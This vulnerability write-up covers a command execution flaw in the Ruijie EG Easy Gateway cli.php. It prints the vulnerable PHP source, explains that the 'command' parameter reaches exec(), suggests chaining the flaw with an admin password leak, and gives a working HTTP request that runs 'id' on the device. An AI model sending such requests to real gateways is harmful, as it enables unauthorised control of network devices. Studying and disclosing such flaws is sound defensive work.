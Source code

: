 # Ruijie EG Easy Gateway cli.php remote command execution vulnerability

## Vulnerability Description

Ruijie EG Easy Gateway cli.php has a command execution vulnerability, cooperate with Ruijie EG Easy Gateway Administrator account password leakage vulnerability to reach RCE control server

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ruijie EG Easy Gateway</span>

## Network surveying and mapping



## Vulnerability reappears

First log in to the background (can combine Ruijie EG Easy Gateway administrator account password leakage vulnerability)

Vulnerability file cli.php



```php
<?php

/**
 * cli命令查询
 */
define('IN', true);     //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);
define('AROOT', dirname(__FILE__) . DS);
include_once(AROOT . 'mvc' . DS . 'controller' . DS . 'core.controller.php');

class defaultController extends coreController {

    function __construct() {
// 载入默认的
        parent::__construct();
    }

    /**
     * cli命令执行
     */
    public function indexAction() {
        $mode = p("mode_url");
        $command = p("command");
        $answer = p("answer");

        if ($mode == false)
            $mode = "exec";
        if ($answer == false)
            $answer = "";
        if ($command !== false)
            $command = iconv('UTF-8', 'GBK//IGNORE', $command);
        $data = execCli($mode, $command, $answer);
        if ($data["status"] !== 1) {
            json_echo($data);
            exit();
        }
        $res = preg_replace(array("/%01/", "/%22/", "/%09/", "/%0D/", "/%3A/","/%07/"), array("", '"', "\t", "", ":",""), urlencode($data["data"])); //先进行url编码防止gbk中文无法json,再过滤首尾空方块
        $resArr = explode("%0A", $res);
        //$resArr = preg_split("/\r\n|\n/", $data["data"]);
        if ($mode == "config" && strstr($resArr[0], "Enter+configuration+commands%2C+one+per+line.++End+with+CNTL%2FZ."))
            array_shift($resArr);
        $data["data"] = $resArr;
        if (!headers_sent()) {
            header("Content-type: text/json;charset=gbk");
            //header("Expires: Thu, 01 Jan 1970 00:00:01 GMT");
            header("Cache-Control: no-cache, must-revalidate");
            header("Pragma: no-cache");
        }
        echo urldecode(json_encode($data));
        //echo json_encode($data);
    }

    /**
     * 执行shell脚本
     */
    public function shellAction() {
        $command = p("command");
        if ($command == false) {
            $data["status"] = 2;
            $data["msg"] = "no command";
            json_echo($data);
            exit();
        }
        $content = [];
        exec(EscapeShellCmd($command), $content);
        $data = array("status" => true,
            "data" => $content);
        json_echo($data);
    }

    /**
     * 获取系统时间
     */
    public function dateAction() {
        setTimeZone();
        $data['status'] = true;
        $data["data"]["time"] = date("Y-m-d H:i:s");
        $data["data"]["zone"] = "UTC" . getTimeZone();
        json_echo($data);
    }

    /**
     * 获取系统时区
     */
    public function datezoneAction() {
        $data['status'] = true;
        $data["data"] = getTimeZone();
        json_echo($data);
    }

    /**
     * 检测静态页面时候未登录直接进入
     */
    public function checkloginAction() {
        json_echo(array("status" => true));
    }

}

include_once(AROOT . "init.php");     //mvc初始化入口，放在底部
```



The key part of the code is



```php
/**
     * 执行shell脚本
     */
    public function shellAction() {
        $command = p("command");
        if ($command == false) {
            $data["status"] = 2;
            $data["msg"] = "no command";
            json_echo($data);
            exit();
        }
        $content = [];
        exec(EscapeShellCmd($command), $content);
        $data = array("status" => true,
            "data" => $content);
        json_echo($data);
    }
```



The command parameter is passed directly to execute the command



Send a request packet



```plain
POST /cli.php?a=shell HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=nk5erth9i0pvcco3n7fbpa9bi0;user=admin; 
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

notdelay=true&command=id
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-28.png)



## 